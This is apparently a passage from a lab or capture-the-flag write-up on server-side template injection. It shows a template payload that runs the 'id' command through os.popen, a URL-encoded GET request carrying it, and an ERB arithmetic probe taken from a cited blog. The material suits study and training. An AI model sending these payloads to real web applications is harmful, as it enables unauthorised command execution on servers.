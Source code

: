 I tried to send the URL-encoded version of this payload from the examples:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?message=%3c%25%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%69%6d%70%6f%72%74%20%6f%73%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%78%3d%6f%73%2e%70%6f%70%65%6e%28%27%69%64%27%29%2e%72%65%61%64%28%29%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3e%0a%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%24%7b%78%7d
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

And generated the following error:

![img](media/f014dbb70bc1817e206d3a919a47b20a.png)

We can find information about SSTI in Erb in this [Trustedsec
blog](https://www.trustedsec.com/blog/rubyerb-template-injection/):

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /?message=<%=+4*4+%>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/09d5f2c2d1ad7fc7dffd5bcbe51886db.png)
